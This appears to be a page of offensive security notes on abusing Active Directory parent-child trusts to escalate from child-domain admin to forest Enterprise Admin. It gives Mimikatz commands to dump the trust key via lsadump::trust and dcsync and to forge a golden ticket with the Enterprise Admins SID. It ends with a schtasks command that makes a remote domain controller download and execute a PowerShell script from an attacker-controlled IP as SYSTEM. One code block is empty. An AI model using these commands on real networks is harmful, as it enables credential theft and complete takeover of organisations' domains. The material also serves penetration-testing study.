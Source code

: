 # Trusted Key

## Trusted Key

Require to be domain Admin on the child domain

Can lead to Enterprise Admin compromise.

{% hint style="info" %}
* Child to Forest Root
* Domains in the same forest have a implicit 2-ways trust with other domains.
* Trust key between parent and child domains
{% endhint %}

2 ways to escalate privileges between 2 domains in the same forest :

* krbtgt hash
* Trust Tickets

## KRBTGT

### Get the Trust key

{% hint style="warning" %}
2 techniques are available :

* **lsadump::trust /patch**
* **lsadump::dcsync**
{% endhint %}

```csharp
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc02
```

![](../../../../.gitbook/assets/image%20%282%29.png)

#### Second technique

```csharp
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:crook.badcorp.local /user:badcorp$"'
```

![](../../../../.gitbook/assets/image%20%28176%29.png)

{% hint style="warning" %}
To access to the Root forest, the domain controller in the child forest will create a TGT for Root forest DC and indicate that it’s a referral to a TGS. This TGT is not signed by the krbtgt password hash but instead with the trust key
{% endhint %}

### Golden ticket to Root Forest Enterprise Admins

#### Get krbtgt hash on the child domain

```csharp

```

#### Golden Ticket

* Domains SID 

![](../../../../.gitbook/assets/image%20%2854%29.png)

#### - Golden ticket :

```csharp
Invoke-Mimikatz -command '"kerberos::golden /user:idontexit /domain:crook.badcorp.local /krbtgt:redacted /sid:S-1-5-21-xxxxxxxxx-xxxxxx-xxxxx /sids:S-1-5-21-xxxxxxx-xxxxxx-519 /ptt"'
```

![](../../../../.gitbook/assets/image%20%28290%29.png)

### Get shell

```csharp
 schtasks /create /S DC.test.lab.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR  "powershell.exe -c 'iex (New-Object  Net.WebClient).DownloadString(''http://172.16.100.82/polo.ps1''')'"
 schtasks.exe /run /S DC.test.lab.local /TN "STCheck"
```

